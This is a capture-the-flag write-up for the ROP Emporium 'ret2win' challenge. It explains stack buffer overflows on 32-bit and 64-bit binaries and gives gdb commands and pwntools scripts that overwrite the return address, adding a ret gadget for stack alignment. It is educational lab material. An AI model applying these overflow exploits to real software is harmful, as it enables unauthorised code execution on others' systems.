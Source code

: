 # RET2WIN

I'll try to keep this as beginner-friendly as possible but frankly a lot of self-learn and searching is unavoidable.
Sites like [CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming) and [bufferoverflows.net] are highly recommended.

## 32-bit

The first step (and often a free flag in CTFs)

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  First we can gather basic information with the `file` command in Linux:
  
```
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```
  
  It is a **32-bit, little-endian** (LSB) executable file.
  
  This 32-bit ELF can be disassembled in [gdb](https://linux.die.net/man/1/gdb) (debugger/disassembler in most linux systems) or (ghidra)[https://ghidra-sre.org/] (powerful disassembler/decompiler).
  I like to use ghidra more because usually the decompiled C code will give me a better picture.

``` c
void pwnme(void){
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void){ // 0x0804862c
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
  
  Despite the description, the buffer is 40-byte long.
  As we can provide `0x38` bytes, which is greater than the 40 allocated, we can *overflow the buffer*.
  But what can happen? This is what **binary exploitation** or **pwn** is about.
  
  ### Introducing the stack
  
  No introduction to pwn can start without a nice graph of the program stack:
  
  ![Stack from Yale](https://flint.cs.yale.edu/cs421/papers/x86-asm/stack-convention.png)
  
  The stack is what computers use to control the program flow. Instruction addresses and parameters are pushed to and popped from the stack.
  There are many videos on Youtube illustrating how the stack is used by programs and I highly recommend watching them.
  It's important to recognize that *knowledge to the stack is fundamental to pwn*.
  
  Now we can answer the question *what can happen*.
  As our data are filled in, starting from some point in the current stack frame (space between `esp` and `ebp`),
  we can control the value stored at `ebp` and most importantly the **return address**, i.e. where the program will jump to after finishing `pwnme`.
  This is the basic idea of *ret2win*. No parameters, no other protections, no complicated command chaining, just change the return address and win.
  
  ### Devicing and implementing the payload
  
  There are many tools available for debugging and supplying inputs. I'm currently using:
  - **gdb/[pwndbg](https://browserpwndbg.readthedocs.io/en/docs/)**: add breakpoints, stack inspection
  - **[pwntools](https://docs.pwntools.com/en/stable/)**: a python library for interacting with processes with many handy tools for pwn
  
  For this challenge, here are some gdb commands that can be handy:
  
  ```
  set telescope-skip-repeating-val off (always show stack even for repeating values)
  info functions (display functions and their addresses)
  disassemble pwnme (show assembly of function)
  break *pwnme+105 (add a breakpoint, notice it should be added after reading user input)
  r <<< "ABCD" (the most simple way of supplying input before starting program)
  ```
  
  ![image](https://user-images.githubusercontent.com/114584910/197354065-3be9df7b-c29e-42cd-b9e6-fd40da0f168d.png)

  From the screenshot, we can clearly see the `esp` and `ebp` registers, the 40 byte space (`0xe8-0xc0`) allocated, as well as the return pointer pointing to `0x08048590 (main+74)`.
  The overall shape should be similar to the previous graph.
  
  So we can supply `"A"*44+"\x2c\x86\x04\x08"` to the program. Even if some characters cannot be typed, there are many ways to do this in gdb with some bash and python magic:
  - `r <<< $(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x2c\x86\x04\x08")`
  - `r <<< $(python3 -c 'from pwn import *;import sys;sys.stdout.buffer.write(b"A"*44+p32(0x0804862c))')`
  - write the payload to a file (with python, [hexed.it], etc) and load it with `r < filename`
  
  It's worth noting that [Python stdout uses `utf-8`](https://docs.python.org/3/library/sys.html#sys.stdout),
  so our `\x86` will become `\xc2\x86` if printed directly using `print`.
  *(the earlier one quits using `print`, the less one has to worry about supplying payload)*
    
  The pwntools python script is also very short:

``` py
from pwn import *
p = process('./ret2win32')
p.sendafter(b'> ', b"A"*(40+4)+p32(0x0804862c))
p.interactive()
```
</details>

## 64-bit

Some parts assume that you have read the 32-bit solution.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  For 64-bit ELFs, we can also use IDA to decompile the program. 
  The difference between using either of them is not very apparent (at least to my current understanding) so it's just personal preference:

``` c
int pwnme(){
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
  printf("> ");
  read(0, s, 0x38uLL);
  return puts("Thank you!");
}

int ret2win(){ //0x400756
  puts("Well done! Here's your flag:");
  return system("/bin/cat flag.txt");
}
```
  
  ### Devicing and implementing the payload
  
  Using gdb/pwndbg:
  
  ![image](https://user-images.githubusercontent.com/114584910/197355965-a537b74b-88c6-495a-981e-2a08f1f79f50.png)

  Immediately we can see a difference: addresses in 32-bit ELF are 32-bit (4-bytes) while those for 64-bit are 64-bit (8-bytes).
  
  Applying what we have learnt:
  
``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400756)) # remember to change to p64
p.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/114584910/197356165-82a57dac-2a6a-4272-9c97-94de051b1a79.png)

  Although we have entered the `ret2win` function (as confirmed by the backtrace and message), a segfault happened *within* it.
  Fortunately this is [hinted by ROP Emporium as well](https://ropemporium.com/guide.html#Common%20pitfalls).
  This is an example of how [stack misalignment](https://technical-qa.com/what-is-the-stack-alignment/) can be an issue when building x64 exploits.
  
  *Wait, what's a `ret` gadget?*
  
  In more advanced pwn challenges, we have to build a chain of commands using fragments of the existing assembly code known as *gadgets*.
  A `ret` gadget "transfers control to the return address located on the stack" immediately and does not do anything on its own.
  It is a useful placeholder to change stack alignment.
  
  All functions end with `ret` and one such example can be found at 0x400755.
  
  Final script:

``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400755)+p64(0x400756))
p.interactive()
```
</details>
